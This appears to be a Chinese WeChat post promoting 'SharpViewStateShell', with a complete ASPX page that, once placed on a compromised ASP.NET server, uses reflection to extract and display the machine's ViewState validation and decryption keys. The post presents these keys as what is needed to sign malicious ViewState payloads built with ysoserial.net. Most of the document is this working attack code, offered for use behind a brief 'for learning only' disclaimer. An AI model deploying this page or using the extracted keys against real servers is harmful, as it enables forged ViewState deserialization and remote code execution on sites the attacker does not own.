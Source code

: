 #  SharpViewStateShell v1.0.2

原创 Rcoil [ RowTeam ](javascript:void\(0\);)

**RowTeam** ![]()

微信号 RowTeam

功能介绍 没有什么好介绍的消遣地

____

___发表于_

收录于合集

  

只要知道 ASP.NET 中关于 ViewState 的 `ValidationKey` 和 `ValidationAlg`
，那么我们根据它反序列化函数中的判断，只需要从 ysoserial.net 扣取对应的签名过程即可。

获取  `ValidationKey` 和 `ValidationAlg` 的脚本为：  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    <%@ Import Namespace="System.Diagnostics" %><%@ Import Namespace="System.IO" %><script runat="server" language="c#" CODEPAGE="65001">  
        public void GetAutoMachineKeys()    {        var netVersion = Microsoft.Win32.Registry.GetValue("HKEY_LOCAL_MACHINE\\SOFTWARE\\Microsoft\\NET Framework Setup\\NDP\\v4\\Full\\", "Version", Microsoft.Win32.RegistryValueKind.ExpandString);         if(netVersion!=null)             Response.Write("<b>NetVersion: </b>" + netVersion);             Response.Write("<br/><hr/>");        // ==========================================================================        var systemWebAsm = System.Reflection.Assembly.Load("System.Web, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a");        var machineKeySectionType = systemWebAsm.GetType("System.Web.Configuration.MachineKeySection");        var getApplicationConfigMethod = machineKeySectionType.GetMethod("GetApplicationConfig", System.Reflection.BindingFlags.Static | System.Reflection.BindingFlags.NonPublic);        var config = (System.Web.Configuration.MachineKeySection)getApplicationConfigMethod.Invoke(null, new object[0]);        Response.Write("<b>ValidationKey:</b> "+config.ValidationKey);        Response.Write("<br/>");        Response.Write("<b>ValidationAlg:</b> "+ config.Validation);        Response.Write("<br/>");        Response.Write("<b>DecryptionKey:</b> "+ config.DecryptionKey);        Response.Write("<br/>");        Response.Write("<b>DecryptionAlg:</b> "+ config.Decryption);        Response.Write("<br/>");        Response.Write("<b>CompatibilityMode:</b> "+config.CompatibilityMode);         Response.Write("<br/><hr/>");        // ==========================================================================        var typeMachineKeyMasterKeyProvider = systemWebAsm.GetType("System.Web.Security.Cryptography.MachineKeyMasterKeyProvider");        var instance = typeMachineKeyMasterKeyProvider.Assembly.CreateInstance(            typeMachineKeyMasterKeyProvider.FullName, false,            System.Reflection.BindingFlags.Instance | System.Reflection.BindingFlags.NonPublic,            null, new object[] { config, null, null, null, null }, null, null);        var validationKey = typeMachineKeyMasterKeyProvider.GetMethod("GetValidationKey").Invoke(instance, new object[0]);        byte[] _validationKey = (byte[])validationKey.GetType().GetMethod("GetKeyMaterial").Invoke(validationKey, new object[0]);        var encryptionKey = typeMachineKeyMasterKeyProvider.GetMethod("GetEncryptionKey").Invoke(instance, new object[0]);        byte[] _decryptionKey = (byte[])validationKey.GetType().GetMethod("GetKeyMaterial").Invoke(encryptionKey, new object[0]);        // ==========================================================================        Response.Write("<br/><b>ASP.NET 4.0 and below:</b><br/>");        byte[] autogenKeys = (byte[])typeof(HttpRuntime).GetField("s_autogenKeys", System.Reflection.BindingFlags.NonPublic | System.Reflection.BindingFlags.Static).GetValue(null);        int validationKeySize = 64;        int decryptionKeySize = 24;        byte[] validationKeyAuto = new byte[validationKeySize];        byte[] decryptionKeyAuto = new byte[decryptionKeySize];        System.Buffer.BlockCopy(autogenKeys, 0, validationKeyAuto, 0, validationKeySize);        System.Buffer.BlockCopy(autogenKeys, validationKeySize, decryptionKeyAuto, 0, decryptionKeySize);        string appName = HttpRuntime.AppDomainAppVirtualPath;        string appId = HttpRuntime.AppDomainAppId;        Response.Write("<br/>");        Response.Write("<b>appName:</b> "+appName);        Response.Write("<br/>");        Response.Write("<b>appId:</b> "+appId);        Response.Write("<br/>");        Response.Write("<b>initial validationKey (not useful for direct use):</b> ");        Response.Write(BitConverter.ToString(validationKeyAuto).Replace("-", string.Empty));        Response.Write("<br/>");        Response.Write("<b>initial decryptionKey (not useful for direct use):</b> ");        Response.Write(BitConverter.ToString(decryptionKeyAuto).Replace("-", string.Empty));        Response.Write("<br/>");  
            byte[] _validationKeyAutoAppSpecific = validationKeyAuto.ToArray();        int dwCode3 = StringComparer.InvariantCultureIgnoreCase.GetHashCode(appName);        _validationKeyAutoAppSpecific[0] = (byte)(dwCode3 & 0xff);        _validationKeyAutoAppSpecific[1] = (byte)((dwCode3 & 0xff00) >> 8);        _validationKeyAutoAppSpecific[2] = (byte)((dwCode3 & 0xff0000) >> 16);        _validationKeyAutoAppSpecific[3] = (byte)((dwCode3 & 0xff000000) >> 24);        Response.Write("<b>App specific ValidationKey (when uses IsolateApps):</b> ");        Response.Write(BitConverter.ToString(_validationKeyAutoAppSpecific).Replace("-", string.Empty));        Response.Write("<br/>");  
            byte[] _validationKeyAutoAppIdSpecific = validationKeyAuto.ToArray();        int dwCode4 = StringComparer.InvariantCultureIgnoreCase.GetHashCode(appId);        _validationKeyAutoAppIdSpecific[4] = (byte)(dwCode4 & 0xff);        _validationKeyAutoAppIdSpecific[5] = (byte)((dwCode4 & 0xff00) >> 8);        _validationKeyAutoAppIdSpecific[6] = (byte)((dwCode4 & 0xff0000) >> 16);        _validationKeyAutoAppIdSpecific[7] = (byte)((dwCode4 & 0xff000000) >> 24);        Response.Write("<b>AppId Auto specific ValidationKey (when uses IsolateByAppId):</b> ");        Response.Write(BitConverter.ToString(_validationKeyAutoAppIdSpecific).Replace("-", string.Empty));        Response.Write("<br/>");  
            byte[] _decryptionKeyAutoAutoAppSpecific = decryptionKeyAuto.ToArray();        _decryptionKeyAutoAutoAppSpecific[0] = (byte)(dwCode3 & 0xff);        _decryptionKeyAutoAutoAppSpecific[1] = (byte)((dwCode3 & 0xff00) >> 8);        _decryptionKeyAutoAutoAppSpecific[2] = (byte)((dwCode3 & 0xff0000) >> 16);        _decryptionKeyAutoAutoAppSpecific[3] = (byte)((dwCode3 & 0xff000000) >> 24);        Response.Write("<b>App specific DecryptionKey (when uses IsolateApps):</b> ");        Response.Write(BitConverter.ToString(_decryptionKeyAutoAutoAppSpecific).Replace("-", string.Empty));        Response.Write("<br/>");  
            byte[] _decryptionKeyAutoAutoAppIdSpecific = decryptionKeyAuto.ToArray();        _decryptionKeyAutoAutoAppIdSpecific[4] = (byte)(dwCode4 & 0xff);        _decryptionKeyAutoAutoAppIdSpecific[5] = (byte)((dwCode4 & 0xff00) >> 8);        _decryptionKeyAutoAutoAppIdSpecific[6] = (byte)((dwCode4 & 0xff0000) >> 16);        _decryptionKeyAutoAutoAppIdSpecific[7] = (byte)((dwCode4 & 0xff000000) >> 24);        Response.Write("<b>AppId Auto specific DecryptionKey (when uses IsolateByAppId):</b> ");        Response.Write(BitConverter.ToString(_decryptionKeyAutoAutoAppIdSpecific).Replace("-", string.Empty));        Response.Write("<br/><hr/>");        // ==========================================================================        Response.Write("<br/><b>ASP.NET 4.5 and above:</b><br/>");        Response.Write("<br/>");        Response.Write("<b>validationAlg:</b> "+config.Validation);        Response.Write("<br/>");        Response.Write("<b>validationKey:</b> "+BitConverter.ToString(_validationKey).Replace("-", string.Empty));        Response.Write("<br/>");        Response.Write("<b>decryptionAlg:</b> "+config.Decryption);        Response.Write("<br/>");        Response.Write("<b>decryptionKey:</b> "+BitConverter.ToString(_decryptionKey).Replace("-", string.Empty));        Response.Write("<br/><hr/>");    }  
        public void Page_load()    {        Response.ContentEncoding = System.Text.Encoding.Default;        Response.Write("<p style='color:#ff0000;text-align:center;'>获取 .NET 框架的机器密钥</p>");        Response.Write("<p>1. 本程序仅供实验学习 ASP.NET ViewState，请勿违法滥用！</p>");        Response.Write("<p>2. 适用场景：获取 .NET 框架权限后均适用！</p>");        Response.Write("<p>3. 公众号：RowTeam</p>");        Response.Write("<br/><hr/>");        GetAutoMachineKeys();    }</script>

  

全程只靠图。  

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230401182314.png)

  

  

效果如下所示：  

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230401182315.png)

  

  

  

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

